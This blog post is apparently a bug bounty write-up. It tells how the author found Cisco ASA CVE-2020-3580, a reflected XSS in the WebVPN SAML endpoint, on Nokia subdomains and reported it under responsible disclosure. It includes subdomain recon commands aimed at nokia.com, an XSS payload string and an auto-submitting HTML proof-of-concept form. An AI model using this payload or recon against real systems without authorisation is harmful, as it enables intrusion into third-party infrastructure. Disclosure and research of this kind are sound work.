 ```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Subdomains"
layout: post
---
```


Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **<span style="color: #2980B9;">CVE-2020-3580</span>**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.

<h2 style="color: #2E86C1;">🕵️‍♂️ Reconnaissance:</h2>

The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

<h3 style="color: #27AE60;">Passive Reconnaissance:</h3>

I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following tools and techniques:

<h3 style="color: #27AE60;">Subdomain Enumeration:</h3>

I used tools like **<span style="color: #2980B9;">Sublist3r</span>**, **<span style="color: #2980B9;">Amass</span>**, and **<span style="color: #2980B9;">Subfinder</span>** to gather a large list of Nokia subdomains:

```bash
subfinder -d nokia.com -o nokia-subdomains.txt 
amass enum -d nokia.com -o nokia-amass.txt
```

This provided a list of subdomains that are publicly known and might host various services, including VPN portals. After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like httpx, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems.

```
cat nokia-subdomains.txt nokia-amass.txt | sort -u | tee subdomains.txt
cat subdomains.txt | httpx -status-code -title -tech-detect -o output.txt
```

Many subdomains returned HTTP 200 with Cisco VPN or WebVPN portals exposed.

<h2 style="color: #2E86C1;">Testing for CVE-2020-3580:</h2>

To test for the vulnerability, we need to send a POST request to /+CSCOE+/saml/sp/acs?tgname=a with the SAMLResponse parameter set to a payload that triggers the XSS vulnerability. 
The payload is:

```
'><svg/onload=alert("xss")>'
```

## Steps to Reproduce:

```
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

<h2 style="color: #27AE60;">⚠️ CVE-2020-3580 on Nokia Subdomains:</h2>

I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.

📅 <span style="color: #16A085;">Disclosure Timelines:</span>
- 17 Aug 2022 — Vulnerability discovered and reported.
- 18 Aug 2022 — Team confirmed receipt of the report.
- 20 Aug 2022 — I earned a spot on their Hall of Fame page.

